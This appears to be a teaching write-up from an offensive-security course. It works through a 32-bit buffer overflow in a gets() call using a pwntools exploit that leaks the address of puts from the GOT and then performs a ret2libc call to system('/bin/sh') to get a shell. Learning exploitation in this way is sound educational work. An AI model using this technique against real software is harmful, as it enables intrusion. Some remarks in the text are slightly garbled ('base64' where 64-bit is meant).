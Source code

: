 ###### Vulnreable Code:
```
#include <stdio.h>
void vuln() {
    puts("Come get me");

    char buffer[20];
    gets(buffer);
}

int main() {
    vuln();

    return 0;
}
```
# Analysis
We'll have to leak the ASLR base.
# Exploitation:
###### Code setup:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()
```
Now we need to send a payload that leaks the real address of puts.
Calling the PLT entry of a function is the same as calling the function itself; if we point the parameter to the GOT entry, it will print the actual location
	In C, string arguments for functions take a **pointer** to where the string can be found, so pointing it to the GOT entry will print it out.

```python
p.recvline()        # just receive the first output

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)
```
The call to `main` is there so that it doesn't crash after we leak the libc base
```python
p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)
```
This will actually print more than just the GOT entry, it will print until a `null` byte. We only care about the first four bytes (8 if this were base64), and we can interpret them using `u32()`

From here, we simply calculate libc base again and perform a basic ret2libc:
```
libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],            # exit is not required here, it's just nicer
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

## Final Exploit:
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvline()

payload = flat(
    'A' * 32,
    elf.plt['puts'],
    elf.sym['main'],
    elf.got['puts']
)

p.sendline(payload)

puts_leak = u32(p.recv(4))
p.recvlines(2)

libc.address = puts_leak - libc.sym['puts']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    libc.sym['exit'],
    next(libc.search(b'/bin/sh\x00'))
)

p.sendline(payload)

p.interactive()
```

- [@Ian Dupont](https://cyberoffensiv-xd79945.slack.com/team/U01LCRFCLMR) - questions about homework, grading, and really anything
- [@Allen Qiu](https://cyberoffensiv-xd79945.slack.com/team/U06E03EL24S) - questions about homework, office hours
- [@Jia Yu Chan](https://cyberoffensiv-xd79945.slack.com/team/U04KM0Q5PTR) - questions about homework, review sessions

